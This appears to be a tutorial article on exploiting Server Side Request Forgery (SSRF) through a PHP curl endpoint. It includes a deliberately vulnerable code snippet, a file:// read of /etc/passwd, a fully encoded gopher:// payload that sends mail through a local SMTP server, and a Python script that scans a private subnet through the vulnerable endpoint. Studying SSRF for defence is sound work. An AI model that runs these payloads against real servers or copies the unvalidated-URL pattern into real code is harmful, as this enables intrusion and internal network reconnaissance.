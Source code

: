 ## Introduction

In the realm of cybersecurity, understanding vulnerabilities and how to exploit them is crucial. This article delves into the intricacies of Server Side Request Forgery (SSRF), a vulnerability that can be exploited to make a server perform requests on behalf of an attacker.

Indeed, the actions being done on the server-side, it is possible to query services that are only available locally such as:

- NoSQL databases such as Redis, MongoDB
- Relational databases such as Oracle, MSSQL, MySQL, PostgreSQL
- Mail services such as Postfix or Dovecot
- Web services usually accessible locally

This kind of flaw is particularly present on Web proxies. A user of the proxy service can have access to internal data present in the server to which he should not normally have had access.

* * *

## How to Exploit an SSRF Vulnerability?

We have seen above the example of exploiting a web proxy, but there is a multitude of attack patterns. The web proxy example uses the HTTP protocol to access the internal data on the machine. We are then entitled to ask ourselves a question "How to communicate with the other services such as the databases, the e-mail services, etc ...?"

**Let take the following example:**

```html
$curl = curl_init();
curl_setopt_array($curl, array(CURLOPT_URL => $_GET['url']));

$resp = curl_exec($curl);
curl_close($curl);
```

This example takes as input an address and retrieves the associated page, the **PHP Curl** module is a simple adaptation of the `curl http://example.com` system command. We can therefore use all the features of **Curl** in particular, those related to the semantics of the address sent to the script as per the following pattern: `[protocole]://[IP|URL]:[port]/[param]`.

- The protocol to use: HTTP, HTTPS, FTP, GOPHER, FILE, DICT, etc ...
- The address
- The remote port
- The parameter if required

If you need more information about the protocols implemented by **Curl** we invite you to check the [documentation](https://curl.se/docs/manpage.html) on the offical page.

### The file:// and http:// Protocol

A protocol should catch our attention. The `file://` protocol, which allows us to open a file on the server. Using the previous script, we can try to read the `/etc/passwd` file on the server.

The `file://` protocol allowed us to access files, but how can we communicate with some of the services present on the machine? The [article](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) written by [Nicolas Grégoire](https://twitter.com/Agarri_FR) give us some good example of SSRF allowing us to exploit a Redis database service.

Redis, like MongoDB, is a NoSQL database with no authentication by default. The article pointed above explains how, using HTTP requests, we can extract and modify the database or either read files on the system. The main concern of this method is that the HTTP request must have a specific format to be correct:

```html
GET /index.html
Host: www.neoslab.com
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
```

This format restricts the operation to service for example access to a service that needs a very precise preamble. Example of accessing the Redis database with an HTTP request:

```html
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Accept-Encoding:'
-ERR unknown command 'Connection:'
```

### The gopher:// Protocol

To overcome the format problem, we can use the `gopher://` protocol. Gopher is a concurrent HTTP protocol that is not used anymore but still supported by curl.

It will allow us to communicate through Telnet with services such as SMTP used when an email is sent. In the below example, we are trying to send an e-mail using the SMTP server available locally.

```html
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victim@site.com>
Date: Tue, 15 Sep 2020 17:20:26 -0400
Subject: Ah Ah AH

You did not say the magic word!


.
QUIT
```

If we convert the above request to a valid Gopher query it will become:

```html
https://victim.website/curl.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictim@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202020%2020%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
```

To move further and to test our SSRF, we set up a netcat server on port 25 which is associated with the SMTP protocol, and wait for the request to be executed:

```html
nc -lvp 25
listening on [any] 25 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 35417
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victim@site.com>
Date: Tue, 15 Sep 2020 17:20:26 -0400
Subject: AH AH AH

You did not say the magic word!


.
QUIT
```

* * *

## Enumeration of IP Addresses on the Local Network

We have seen in the previous sections that SSRF's act as a proxy to execute internal requests. They can then be used as a tool for the enumeration of the machines accessible through subnets network.

The only constraint is that the machine to be detected must have at least one service open. The most common services are often Web or SSH services using ports 80, 443, 8080, 22, or even RDP using port 3389 on the Windows system.

We can guess the accessible subnets thanks to the Apache configuration files **/etc/apache2/apache2.conf** or by looking in the IP address ranges of private networks:

- 10.0.0.0/8
- 172.16.0.0/12
- 192.168.0.0/16

To enumerate the available machines having an HTTP service on port 80, you can use the following `python` script:

```html
import requests

def ipRange(start_ip, end_ip):
   start = list(map(int, start_ip.split(".")))
   end = list(map(int, end_ip.split(".")))
   temp = start
   ip_range = []
   ip_range.append(start_ip)
   while temp != end:
      start[3] += 1
      for i in (3, 2, 1):
         if temp[i] == 256:
            temp[i] = 0
            temp[i-1] += 1
      ip_range.append(".".join(map(str, temp)))
   return ip_range

ip_range = ipRange("192.168.0.0", "192.168.255.255")
ip_up = []
for ip in ip_range:
    try:
        result = requests.get("http://victim.website/curl.php?url=http://"+ip+"/:80",timeout=0.5).content
        if(result is not ""):
            ip_up.append(ip)
            print "[+] Machine : "+ip
    except:
        pass

print("\n".join(ip_up))
```

* * *

##  Conclusion

Understanding SSRF and its potential for exploitation is vital for both attackers and defenders in the cybersecurity landscape. By comprehending the various bypass methods and exploitation techniques, one can better prepare and secure their systems against such threats.